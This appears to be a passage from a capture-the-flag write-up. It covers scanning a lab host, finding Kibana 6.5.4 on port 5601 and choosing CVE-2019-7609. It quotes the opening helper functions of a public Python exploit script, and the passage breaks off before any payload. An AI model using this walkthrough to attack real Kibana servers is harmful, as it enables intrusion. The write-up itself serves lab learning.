 ```
SF:(LDAPBindReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOpti
SF:ons,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 24 16:57:04 2021 -- 1 IP address (1 host up) scanned in 32.12 seconds
```

We notice a strange port open on `5601`. And while nmap is not able to determine what exactly is open there - we can see from its diagnostics that it is some sort of http portal we can access.

```bash
open http://$IP:5601
```

Reveals some sort of visualisation dashboard. We can quickly find what version of Kiba this is from checking the source code of the page and searching for `version`; which is revealed to be `6.5.4`.

---

### Finding vunerabilities

Now that we have a version - we can google for vunerabilities associated with this. Initially you may find `Kibana 6.6.1` but disregard this as the room does not want this CVE. It wants `CVE-2019-7609`. Using the [article](https://www.tenable.com/blog/cve-2019-7609-exploit-script-available-for-kibana-remote-code-execution-vulnerability) I found, it points me to a gihub repo with a script in `python2` I can use to exploit the dashboard.

```python
#!/usr/bin/env python
# coding:utf-8
# Build By LandGrey

import re
import sys
import time
import random
import argparse
import requests
import traceback
from distutils.version import StrictVersion

def get_kibana_version(url):
    headers = {
        'Referer': url,
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0',
    }
    url = "{}{}".format(url.rstrip("/"), "/app/kibana")
    r = requests.get(url, verify=False, headers=headers, timeout=30)
    patterns = ['&quot;version&quot;:&quot;(.*?)&quot;,', '"version":"(.*?)",']
    for pattern in patterns:
        match = re.findall(pattern, r.content)
        if match:
            return match[0]
    return '9.9.9'


def version_compare(standard_version, compare_version):
    try:
        sc1 = StrictVersion(standard_version[0])
        sc2 = StrictVersion(standard_version[1])
        cc = StrictVersion(compare_version)
    except ValueError:
        print("[-] ERROR : kibana version compare failed !")
```